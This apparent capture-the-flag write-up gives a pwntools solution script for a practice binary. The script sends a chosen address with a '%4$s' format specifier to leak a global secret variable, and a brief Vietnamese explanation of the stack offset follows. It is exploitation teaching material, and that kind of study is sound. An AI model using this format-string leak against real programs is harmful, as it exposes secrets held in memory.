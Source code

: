 # solution

```python
from pwn import *

context.log_level = 'debug'
p = process("./Formatstring-leak-flag-in-mem-bss")

payload = p32(0x804a060)
payload += b"%4$s"

p.sendline(payload)
p.interactive()
```

![Alt text](image.png)

đầu tiên nhập vào địa chỉ của biến global secret, sau đó sử dụng %4$s để in ra giá trị của biến secret. Đếm từ đỉnh stack xuống thì biến secret nằm ở vị trí thứ 4. (0,1,2,3,4)

![Alt text](image-1.png)